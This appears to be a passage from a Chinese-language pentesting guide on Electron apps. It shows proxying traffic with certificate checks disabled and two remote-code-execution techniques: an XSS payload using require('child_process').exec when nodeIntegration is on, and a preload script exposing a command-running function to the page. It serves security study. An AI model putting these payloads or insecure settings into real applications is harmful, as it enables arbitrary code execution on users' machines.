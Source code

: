 ### 捕获流量

修改start-main配置文件，并添加使用代理的设置，例如：
```javascript
"start-main": "electron ./dist/main/main.js --proxy-server=127.0.0.1:8080 --ignore-certificateerrors",
```
## RCE: XSS + nodeIntegration

如果将**nodeIntegration**设置为**on**，网页的JavaScript可以通过调用`require()`轻松使用Node.js功能。例如，在Windows上执行计算器应用程序的方法是：
```html
<script>
require('child_process').exec('calc');
// or
top.require('child_process').exec('open /System/Applications/Calculator.app');
</script>
```
<figure><img src="../../../.gitbook/assets/image (5) (4).png" alt=""><figcaption></figcaption></figure>

## RCE: preload

在此设置中指定的脚本会在渲染器中的其他脚本之前加载，因此它具有对 Node API 的无限访问权限：
```javascript
new BrowserWindow{
webPreferences: {
nodeIntegration: false,
preload: _path2.default.join(__dirname, 'perload.js'),
}
});
```
因此，该脚本可以将节点特性导出到页面：

{% code title="preload.js" %}
```javascript
typeof require === 'function';
window.runCalc = function(){
require('child_process').exec('calc')
};
```
{% code title="index.html" %}
```html
<body>
<script>
typeof require === 'undefined';
runCalc();
</script>
</body>
```
{% endcode %}

{% hint style="info" %}
**如果`contextIsolation`被打开，这个方法将不起作用**
{% endhint %}
